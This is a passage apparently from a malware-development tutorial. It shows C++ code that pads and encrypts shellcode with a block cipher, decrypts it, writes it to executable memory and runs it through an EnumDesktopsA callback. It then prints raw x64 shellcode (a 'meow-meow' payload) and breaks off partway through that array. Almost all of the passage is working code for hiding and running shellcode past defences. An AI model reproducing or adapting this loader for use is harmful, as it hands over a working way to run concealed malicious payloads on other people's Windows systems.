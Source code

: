 ```cpp
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int len = sizeof(my_payload);
  int pad_len = (len + BLOCK_SIZE - 1) & ~(BLOCK_SIZE - 1);

  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, len);

  // encrypt the padded shellcode
  for (int i = 0; i < pad_len; i += BLOCK_SIZE) {
    safer_encrypt(&padded[i], key);
  }

  printf("encrypted:\n");
  for (int i = 0; i < sizeof(padded); i++) {
    printf("\\x%02x", padded[i]);
  }
  printf("\n\n");

  // decrypt the padded shellcode
  for (int i = 0; i < pad_len; i += BLOCK_SIZE) {
    safer_decrypt(&padded[i], key);
  }

  printf("decrypted:\n");
  for (int i = 0; i < sizeof(padded); i++) {
    printf("\\x%02x", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, sizeof(padded), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, pad_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);

  return 0;
}
```

As you can see, first of all, before encrypting, we use padding via the NOP (`\x90`) instructions.     

As usually, I used `meow-meow` payload:    

```cpp
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
```